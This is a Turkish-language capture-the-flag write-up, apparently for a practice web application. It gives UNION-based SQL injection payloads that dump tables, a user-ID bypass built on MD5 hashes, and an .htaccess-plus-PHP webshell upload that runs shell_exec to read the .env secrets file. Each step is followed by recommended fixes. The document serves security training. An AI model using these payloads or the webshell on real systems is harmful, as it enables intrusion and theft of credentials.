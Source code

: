 1. ZAFİYET: SQL INJECTION İLE VERİ SIZDIRMA
--------------------------------------------------
Hedef Dosya: /index.php

Hata Mesajı:
Warning: mysqli_fetch_assoc() expects parameter 1 to be mysqli_result, bool given in /var/www/html/index.php on line 27

Exploit Adımları:
- ' UNION SELECT "i", table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema=database()--  
→ Veritabanındaki tablolar listelendi.  
- ' UNION SELECT "i", column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='flags'--  
→ "flags" tablosunun sütunları bulundu.  
- ' UNION SELECT "i", flag_value, NULL, NULL, NULL, NULL FROM flags--  
→ "flags" tablosundan flag verileri çekildi.

Elde Edilen Bayrak:
- YZT_FLAG1{f94222bbb8976f1a753a25be2c81384a}
- YZT_FLAG1{b2e605ed389aef58002aa7132ad26d98}

Güvenlik Açığı:
- Kullanıcı girişinde SQL sorguları doğrudan veri tabanına gönderilmiş.
- Parametrelenmiş sorgular (prepared statements) kullanılmamış.
- Veritabanı yapılarına yetkisiz erişim mümkün.

Önerilen Önlemler:
- SQL sorguları için mysqli_prepare() veya PDO kullanılmalı.
- Hata mesajları kullanıcıya gösterilmemeli.
- Uygulama dışına veri sızmasını önlemek için bilgi ifşası engellenmeli.

==================================================
2. ZAFİYET: ZAYIF KİMLİK DOĞRULAMA VE HASH KULLANIMI
--------------------------------------------------
Hedef Endpoint: /admin/user_info.php?user_id=...

Exploit Adımları:
- "users" tablosundan kullanıcı adları ve şifreler çekildi:
  ' UNION SELECT "i", column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users'--
  ' UNION SELECT "i", username, NULL, NULL, NULL, NULL FROM users--  
  ' UNION SELECT "i", password, NULL, NULL, NULL, NULL FROM users--  
- Hash çözümleme ile kullanıcı şifresi elde edildi:
  MD5("4") = a87ff679a2f3e71d9181a67b7542122c
  MD5("1") = c4ca4238a0b923820dcc509a6f75849b
- `user_id` parametresine MD5 hash verilerek doğrudan kullanıcı verisine ulaşıldı.

Elde Edilen Bayrak:
- YZT_FLAG2{998be3c05163e29054a6a0a82afd6435}

Güvenlik Açığı:
- Kimlik doğrulamada MD5 gibi zayıf algoritmalar kullanılmış.
- `user_id` gibi parametreler hash ile kontrol edildiği için tahmin edilebiliyor.
- Kimlik doğrulama kontrolleri eksik veya yetersiz.

Önerilen Önlemler:
- MD5 yerine bcrypt, SHA-256 veya argon2 kullanılmalı.
- Kimlik doğrulama, token ve session bazlı yapılmalı.
- Erişim kontrolü sağlamlaştırılmalı.

==================================================
3. ZAFİYET: DOSYA YÜKLEME VE RCE (Remote Code Execution)
--------------------------------------------------
Yüklenen .htaccess dosyası:
```
AddType application/x-httpd-php .shell
```

Yüklenen PHP Dosyası:
```
<?php 
$output = shell_exec('cat ../../.env'); 
echo "<pre>$output</pre>"; 
?>
```

Exploit Adımları:
- Bu dosya HTTP POST ile `file` parametresi kullanılarak yüklendi:
  Content-Disposition: form-data; name="file"; filename="patatest.php"
- Daha sonra aşağıdaki GET isteği ile dosya çalıştırıldı:
  GET /admin/uploads/patatest.php HTTP/1.1

Elde Edilen Bayrak:
- YZT_FLAG3{0d466c517e6437c8f6195e90fb3b7c2d}

Güvenlik Açığı:
- PHP dosyaları yüklendikten sonra doğrudan çalıştırılabiliyor.
- Web sunucusunda .env gibi hassas dosyalar erişilebilir durumda.
- shell_exec gibi kritik fonksiyonlar devrede.

Önerilen Önlemler:
- Dosya uzantısı ve MIME türü doğrulaması yapılmalı.
- Upload klasörü script çalıştırılamayacak şekilde yapılandırılmalı (örneğin `.htaccess` ile).
- PHP fonksiyonları `shell_exec`, `exec`, `system` gibi komut çalıştırıcılar devre dışı bırakılmalı.
- .env, .git gibi kritik dosyaların erişimi kısıtlanmalı.
- NTFS izinleriyle "Everyone" grubunun yazma ve çalıştırma yetkileri sınırlandırılmalı.

==================================================
SONUÇ:
Bu web uygulaması; SQL Injection, zayıf kimlik doğrulama ve dosya yükleme zaafiyetlerine karşı savunmasızdır. Bu zafiyetler zincirleme olarak kullanıldığında saldırganın sisteme tam yetkiyle erişmesine neden olabilir. Özellikle .env dosyasına erişim ve shell komutlarının çalıştırılabilmesi, sistemde ciddi bir Remote Code Execution (RCE) riski doğurmaktadır.

Toplamda Elde Edilen Bayraklar:
- YZT_FLAG1{f94222bbb8976f1a753a25be2c81384a}
- YZT_FLAG1{b2e605ed389aef58002aa7132ad26d98}
- YZT_FLAG2{998be3c05163e29054a6a0a82afd6435}
- YZT_FLAG3{0d466c517e6437c8f6195e90fb3b7c2d}
